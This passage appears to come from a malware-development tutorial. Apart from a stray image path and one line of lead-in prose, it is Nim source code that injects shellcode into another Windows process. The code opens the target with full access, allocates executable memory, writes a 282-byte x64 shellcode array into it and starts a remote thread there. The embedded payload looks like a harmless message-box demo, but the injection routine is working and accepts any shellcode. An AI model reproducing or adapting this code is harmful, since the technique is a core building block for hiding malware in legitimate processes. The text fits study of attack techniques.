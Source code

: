 Then add injection logic. It's looks like this:     

```nim
let ph = winim.OpenProcess(
    PROCESS_ALL_ACCESS,
    false,
    cast[DWORD](process.processID)
)

# payload
var payload: array[282, byte] = [
byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
]

when isMainModule:
    let mem = VirtualAllocEx(
        ph,
        NULL,
        cast[SIZE_T](payload.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload,
        cast[SIZE_T](payload.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
```